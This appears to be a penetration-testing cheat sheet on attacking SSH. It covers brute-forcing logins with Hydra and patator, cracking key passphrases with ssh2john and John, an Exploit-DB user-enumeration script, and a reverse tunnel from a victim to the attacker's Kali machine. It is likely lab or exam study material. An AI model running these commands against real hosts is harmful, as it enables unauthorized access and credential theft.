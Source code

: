 # 22 - SSH

{% hint style="danger" %}
In case it fails due to enconding > try

```
dos2unix id_rsa
```
{% endhint %}

## Solve ciphers and host keys issues

{% code overflow="wrap" fullWidth="true" %}
```bash
ssh root@10.11.1.1 -o KexAlgorithms=diffie-hellman-group1-sha1 -oHostKeyAlgorithms=+ssh-dss 
```
{% endcode %}

## Skip host key and password

{% code overflow="wrap" fullWidth="true" %}
```bash
ssh -o "UserKnownHostsFile=/dev/null" -o "StrictHostKeyChecking=no" [-p port] <username>@<IP|hostname>

# FOR THE HOST KEY (TYPICAL MESSAGE WHEN WE FIRST CONNECT VIA SSH)
ssh -R ... -o "UserKnownHostsFile=/dev/null" -o "StrictHostKeyChecking=no" kali@$IP

# EASY WAY TO ALLOW CONNECTIONS TO OUR MACHINE SAFELY - ADD A NEW USER TO OUR ATTACKING VM
sudo adduser tunneluser # set /bin/true as its shell and use a complex password

# ANOTHER WAY. TO NOT ENTER OUR PASSWORD, WE ALLOW THE VICTIM TO CONNECT TO US WITH SSH
mkdir -p /tmp/keys && cd keys
ssh keygen
Enter file: /tmp/keys/id_rsa
# Modify id_rsa.pub to put some restrictions: access only from that IP, ignore 
#commands, prevent agent and X11 forwarding, prevent the user from being allocated a tty
from="10.11.1.123",command="echo 'This account can only be used for port forwarding'",no-agent-forwarding,no-X11-forwarding,no-pty ssh-rsa ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCxO27JE5uXiHqoUUb4j9o/IPHxsPg+fflPKW4N6pK0ZXSmMfLhjaHyhU r4auF+hSnF2g1hN4N2Z4DjkfZ9f95O7Ox3m0oaUgEwHtZcwTNNLJiHs2fSs7ObLR+gZ23kaJ+TYM8ZIo/ENC68 Py+NhtW1c2So95ARwCa/Hkb7kZ1xNo6f6rvCqXAyk/WZcBXxYkGqOLut3c5B+++6h3spOPlDkoPs8T5/wJNcn8 i12Lex/d02iOWCLGEav2V1R9xk87xVdI6h5BPySl35+ZXOrHzazbddS7MwGFz16coo+wbHbTR6P5fF9Z1Zm9O/ US2LoqHxs7OxNq61BLtr4I/MDnin www-data@box
# The file above has to be placed at ~/.ssh/authorized_keys
# Final SSH command
ssh -f -N -R ... -o "UserKnownHostsFile=/dev/null" -o "StrictHostKeyChecking=no" -i /tmp/keys/id_rsa kali@$IP
```
{% endcode %}

## Log in with private key (id\_rsa)

```bash
cat id_rsa > authorized_keys

# Copy the content to local with id_rsa name.
chmod 600 id_rsa
ssh -i id_rsa
```

## Brute force with Hydra

```bash
hydra -l $USER -P rockyou.txt ssh://$IP:$PORT
```

## Crack private keys with ssh2john and john

```bash
./usr/share/john/ssh2john.py id_rsa.private > id_rsa.john

john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa.john #get passphrase
```

## sshpass

```bash
sshpass -P 'password' user@target
```

## Brute force old SSH/web with patator

{% code overflow="wrap" fullWidth="true" %}
```bash
patator ssh_login host=10.0.0.1 user=root password=FILE0 0=passwords.txt -x ignore:mesg='Authentication failed.'

patator http_fuzz url="" method=POST body='username=admin&password=FILE0' 0=rockyou.txt -x ignore:fgrep="Invalid password"
```
{% endcode %}

## User enumeration script

```bash
# OpenSSH < 7.7
https://www.exploit-db.com/exploits/45939
python 45939.py $IP $USERNAME
```

## OpenSSL exploit

We need the public key, combined with the very old version of openssl running on the system

(openssl version found with the `dpkg -l` command)

## From SSH encrypted key to non-password key

```
openssl rsa -in home/user/.ssh/encrypted_id_rsa -out ~/decrypted_id_rsa
```

